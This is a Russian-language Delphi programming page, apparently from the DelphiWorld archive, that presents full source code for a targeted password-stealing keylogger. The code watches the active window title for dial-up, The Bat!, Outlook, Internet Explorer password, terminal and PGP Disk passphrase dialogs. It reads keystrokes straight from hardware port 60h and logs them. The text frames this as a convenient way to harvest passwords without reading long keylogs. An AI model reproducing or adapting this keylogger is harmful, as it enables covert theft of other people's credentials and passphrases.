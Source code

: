 ```yaml
---
Title: Способ высосать пароли из едитов определенных программ
Date: 01.01.2007
---
```



Способ высосать пароли из едитов определенных программ
======================================================

::: {.date}
01.01.2007
:::

Вот хороший способ высосать пароли из едитов определенных программ -
Достоинством метода является отсутствие необходимости читать длинющие
keylog - записи, тк кейлоггинг ведется только в интересующих нас окнах
(Terminal, DUN, etc\...).

    unit ksf;
    interface
    uses windows,Controls,Forms, StdCtrls, Classes, ExtCtrls;
     
    type
     Tf1 = class(TForm)
       t1: TTimer;
       m1: TMemo;
       procedure t1t(Sender: TObject);
     end;
     
    var
    f1: Tf1;
    okey:byte;
    KAr:array[1..88] of pchar=('-Esc-','1','2','3','4','5','6','7','8','9',
    '0','-','=','bsp','-Tab-','q','w','e','r','t','y','u','i','o','p',
    '[',']','#13','-Ctrl-','a','s','d','f','g','h','j','k','l',';','''','`',
    '-Shift-','\','z','x','c','v','b','n','m',',','.','/','-Shift-','*',
    'Alt',' ','CL','F1','F2','F3','F4','F5','F6','F7','F8','F9','F10','NL',
    'SL','-Home-','-Up-','-PgUp-','-','-Left-','-*5*-','-Right-','+',
    '-End-','-Down-','-PDn-','-Ins-','-Del-','','','-Unk-','F11','F12');
     
    implementation
    {$R *.DFM}
     
    procedure Tf1.t1t(Sender: TObject);
    var
    key:byte;
    cap0:pchar;
    cap1:string;
    begin
    getmem(cap0,255);
    GetWindowText(GetforegroundWindow,cap0,255); //title активного окна
    cap1:=cap0;
    freemem(cap0);
    if(pos('Connect To',cap1)< > 0)or        //DialUP
      (pos('Установка связи',cap1)< > 0)or   //DialUP
      (pos('Вход в систему',cap1)< > 0)or    //DialUP
      (pos('EType Dialer',cap1)< > 0)or      //DialUP
      (pos('p Networking',cap1)< > 0)or      //DialUP
      (pos('p Connection',cap1)< > 0)or      //DialUP
      (pos('Connecting to',cap1)< > 0)or     //DialUP
      (pos('Connessione a',cap1)< > 0)or     //DialUP
      (pos('Edit User - ',cap1)< > 0)or      //The Bat!
      (pos('Мастер подключения к Интернету',cap1)< > 0)or //MSIE,MSOutlook,etc
      (pos('сетевого пароля',cap1)< > 0)or   //MSIE
      (pos('Свойства: ',cap1)< > 0)or        //MSOutlook
      (pos('Вход - ',cap1)< > 0)or           //MSOutlook
      (pos(' - Receiving mail',cap1)< > 0)or //The Bat!
      (pos('Окно терминала',cap1)< > 0)or    //Terminal
      (pos('Passphrase',cap1)< > 0)          //PGP Disk
    then
    begin
     asm
      in al,60h                 // Читаем из 60h порта нажатую кнопку в al
      mov key,al                // Перемещаем код ключа из al в Key
     end;
     if okey< > key then
     begin
      okey:=key;
      if key< =88 then           // Ловим Key_Down код
      m1.text:=m1.text+kAr[Key]  // И берем по этому коду из массива строку
     end;
    end;
    end;
     
     

<https://delphiworld.narod.ru/>

DelphiWorld 6.0
